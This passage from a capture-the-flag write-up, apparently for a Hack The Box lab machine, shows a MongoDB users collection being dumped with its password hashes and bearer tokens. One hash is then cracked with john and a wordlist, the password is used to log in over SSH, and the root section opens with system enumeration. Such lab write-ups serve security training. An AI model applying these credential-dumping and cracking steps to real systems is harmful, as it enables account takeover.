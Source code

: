 ```markdown
```
Looks like an script to connect to a Mongo database called `testing`. Use local client to connect to Mongo service, then switch to `testing` database and enumerate the collections. Dump the `users` collection.
```markdown
> mongo
MongoDB shell version v4.4.29
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("221fb43c-d4b3-4cca-9ade-47aa625e7078") }
MongoDB server version: 4.4.8

> use testing
switched to db testing

> show collections
messages
users

> db.users.find()
{ "_id" : ObjectId("648874de313b8717284f457c"), "name" : "admin", "email" : "admin@chatbot.htb", "password" : "$2b$10$VSrvhM/5YGM0uyCeEYf/TuvJzzTz.jDLVJ2QqtumdDoKGSa.6aIC.", "terms" : true, "value" : true, "authorization_token" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NDg4NzRkZTMxM2I4NzE3Mjg0ZjQ1N2MiLCJpYXQiOjE3MTAxNTM0NzZ9.kTx3Ez_m5PaesvXkgdwQ7vKMz5liuieUyfK5STpOdFE", "__v" : 0 }
{ "_id" : ObjectId("648874de313b8717284f457d"), "name" : "frank_dorky", "email" : "frank_dorky@chatbot.htb", "password" : "$2b$10$hrB/by.tb/4ABJbbt1l4/ep/L4CTY6391eSETamjLp7s.elpsB4J6", "terms" : true, "value" : true, "authorization_token" : " ", "__v" : 0 }
{ "_id" : ObjectId("65eed706b9dd9f941a10536e"), "name" : "crilin", "email" : "hacker@crilin", "password" : "$2b$10$NCOGN44Y1JWdtHrQ5RQLpeaH4rF/NJJol/1UvdZ/BKt/q0DhS8PXe", "terms" : true, "value" : false, "authorization_token" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NWVlZDcwNmI5ZGQ5Zjk0MWExMDUzNmUiLCJpYXQiOjE3MTAxNTE0NDF9._o6bDKbnUekJhTlM2e8DTgrCIt7h9SsSFEexCAUYDnw", "__v" : 0 }
{ "_id" : ObjectId("65eed910b9dd9f941a105827"), "name" : "tede", "email" : "tede@tede.com", "password" : "$2b$10$ZsmQWWwIpSkk3zZtgNx5y.w.ILjgg1u2QYwMc5vhjW8rKRLUalSwm", "terms" : true, "value" : false, "authorization_token" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NWVlZDkxMGI5ZGQ5Zjk0MWExMDU4MjciLCJpYXQiOjE3MTAxNTI4OTl9.CJk1o-WF8g_cb0fGREN4AEI9JNS1aJyEvqpZ9jTJz7c", "__v" : 0 }
{ "_id" : ObjectId("65eedef4b9dd9f941a1065ae"), "name" : "asdf", "email" : "huhu@huhu.de", "password" : "$2b$10$lPWgOhe.H3tDoP0wXUtn/u8moanNUEH5MhFyNyZ6QkU2DiSlCxQs2", "terms" : true, "value" : false, "authorization_token" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NWVlZGVmNGI5ZGQ5Zjk0MWExMDY1YWUiLCJpYXQiOjE3MTAxNTM0NzF9.xAn4K8c2w3hvuqxprmiwFjOk8g6vM31fBL1YYeLfP7M", "__v" : 0 }
```
The password of user `franky_dorky` is crackable with `john`.
```markdown
> john --wordlist=/usr/share/wordlists/rockyou.txt hash 
```
Finally, use this password to SSH in as `frank_dorky`

![formulax4 Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/b8ad5e16-c22a-4e99-9c69-8b151b1e7863)

Use this shell to retrieve the user flag.
### ROOT
Start from the low-priv shell and take the opportunity to enumerate the system.
```markdown
> uname -a && cat /etc/os-release
Linux formulax 5.15.0-97-generic #107-Ubuntu SMP Wed Feb 7 13:26:48 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
PRETTY_NAME="Ubuntu 22.04.4 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.4 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
```